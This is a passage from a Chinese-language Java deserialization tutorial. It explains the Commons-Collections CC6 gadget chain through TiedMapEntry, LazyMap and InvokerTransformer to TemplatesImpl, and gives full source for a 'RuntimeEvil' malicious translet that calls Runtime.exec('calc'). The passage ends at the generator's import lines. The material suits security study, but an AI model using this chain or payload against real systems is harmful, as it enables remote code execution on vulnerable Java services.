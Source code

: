 注意到没有，这里transform的参数就是我们new TiedMapEntry时传入的参数test1。现在我们传templatesClass，分别在put时触发一次，反序列化时触发一次。

所以transform的参数是可以控制的。

知道这一点就很简单了，我们直接构造以下链：

```java
HashMap.readObject()->hash()->
    TiedMapEntry.hashCode()->getValue()->
    	LazyMap.get()->
    		InvokerTransformer.transform()->
    			TemplatesImpl.newTransformer()
```

构造一个RuntimeEvil恶意字节码：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class RuntimeEvil extends AbstractTranslet {
    static{
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    public RuntimeEvil(){}
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

生成CC6字节码：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

```